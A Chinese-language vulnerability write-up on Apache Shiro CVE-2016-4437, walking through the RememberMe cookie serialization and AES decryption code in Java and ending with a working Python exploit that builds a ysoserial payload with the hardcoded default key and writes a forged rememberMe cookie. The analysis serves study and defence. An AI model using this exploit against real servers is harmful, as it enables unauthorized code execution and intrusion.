



# Shiro <=1.2.4 CVE-2016-4437 反序列化漏洞
**原理:**  
在Remember me功能中,其设置的cookie字段内容可被伪造,且该内容未被验证过滤进行反序列化处理造成反序列化漏洞
## Remember me
Remember me可以为用户生成一个长时间存在的cookie以便即使浏览器关闭后再次打开相关页面也不用再次登输入账号密码
### 生成过程
在onSuccessfulLogin函数中,当用户登录后调用forgetIdentity()来清除之前的认证信息,然后调用isRemeberme判断是否启用了Remeberme功能,如果启用了则调用remeberIdentity()进行后续操作
```java

    public void onSuccessfulLogin(Subject subject, AuthenticationToken token, AuthenticationInfo info) {
        //always clear any previous identity:
        forgetIdentity(subject);//清除已有的认证信息

        //now save the new identity:
        if (isRememberMe(token)) {//判断是否启用remeberme功能
            rememberIdentity(subject, token, info);//后续操作
        } else {
            if (log.isDebugEnabled()) {
                log.debug("AuthenticationToken did not indicate RememberMe is requested.  " +
                        "RememberMe functionality will not be executed for corresponding account.");
            }
        }
    }
```
在rememberIdentity()中首先调用getIdentityToRemember()来获取到用户ID对象,然后调用rememberIdentity()

在rememberIdentity()中使用convertPrincipalsToBytes来将用户ID对象序列化为一个字节数组,然后调用加密函数对字节数组进行encrypt
```java
    protected byte[] convertPrincipalsToBytes(PrincipalCollection principals) {
        byte[] bytes = serialize(principals);//序列化
        if (getCipherService() != null) {
            bytes = encrypt(bytes);//调用加密函数
        }
        return bytes;
    }
```
在encrypt()中调用默认的AES算法对字节数组进行加密,而AES的加密密钥则是从getEncryptionCipherKey()中获取的,而该值为一个固定的值

默认加密密钥

rememberIdentity()在得到AES加密后的结果后调用rememberSerializedIdentity()来将该值b64编码后设置到cookie中


生成流程:
1. 登录成功后清除已有认证信息,判断Remeberme参数是否为true
2. 获取用户ID对象,反序列化ID对象之后调用AES加密
3. 将加密后的结果b64编码后设置到cookie中供后续使用


### 解码过程 
去掉登录的session来发送一个带有rememberme cookie的请求,触发resolvePrincipals()方法,在其中调用
getRememberedIdentity()进行remeberme认证,还原用户ID对象  
```java
    protected SubjectContext resolvePrincipals(SubjectContext context) {

        PrincipalCollection principals = context.resolvePrincipals();

        if (CollectionUtils.isEmpty(principals)) {
            log.trace("No identity (PrincipalCollection) found in the context.  Looking for a remembered identity.");

            principals = getRememberedIdentity(context);
            ...
            ...
```
在getRememberedIdentity()方法中,在该函数中获取到一个getRememberMeManager对象,然后调用其getRememberedPrincipals()方法获取到存储的Principal对象,也就是包含用户信息的一个对象
```java
    protected PrincipalCollection getRememberedIdentity(SubjectContext subjectContext) {
        RememberMeManager rmm = getRememberMeManager();//获取getRememberMeManager对象
        if (rmm != null) {
            try {
                return rmm.getRememberedPrincipals(subjectContext);//调用getRememberMeManager的getRememberedPrincipals方法
            } catch (Exception e) {
                if (log.isWarnEnabled()) {
                    String msg = "Delegate RememberMeManager instance of type [" + rmm.getClass().getName() +
                            "] threw an exception during getRememberedPrincipals().";
                    log.warn(msg, e);
                }
            }
        }
        return null;
    }
}
```
在getRememberedPrincipals()中从cookie的remeberme字段获取到值进行b64解码得到加密的序列化后的字节数组,然后传入convertBytesToPrincipals中

getRememberedSerializedIdentity获取对应cookie值

在convertBytesToPrincipals()中对AES加密的值进行解密,解密后直接传入deserialize()

最后在deserialize中来到最终的readObject方法,造成反序列化漏洞


## ExP
```python
# pip install pycrypto
import sys
import base64
import uuid
from random import Random
import subprocess
from Crypto.Cipher import AES

def encode_rememberme(command):
    popen = subprocess.Popen(['java', '-jar', 'ysoserial.jar', 'URLDNS', command], stdout=subprocess.PIPE)
    BS   = AES.block_size
    pad = lambda s: s + ((BS - len(s) % BS) * chr(BS - len(s) % BS)).encode()
    key  =  "kPH+bIxk5D2deZiIxcaaaA=="
    mode =  AES.MODE_CBC
    iv   =  uuid.uuid4().bytes
    encryptor = AES.new(base64.b64decode(key), mode, iv)
    file_body = pad(popen.stdout.read())
    base64_ciphertext = base64.b64encode(iv + encryptor.encrypt(file_body))
    return base64_ciphertext

if __name__ == '__main__':
    payload = encode_rememberme(sys.argv[1])    
    with open("payload.cookie", "w") as fpw:
        print("rememberMe={}".format(payload.decode()), file=fpw)

```
 

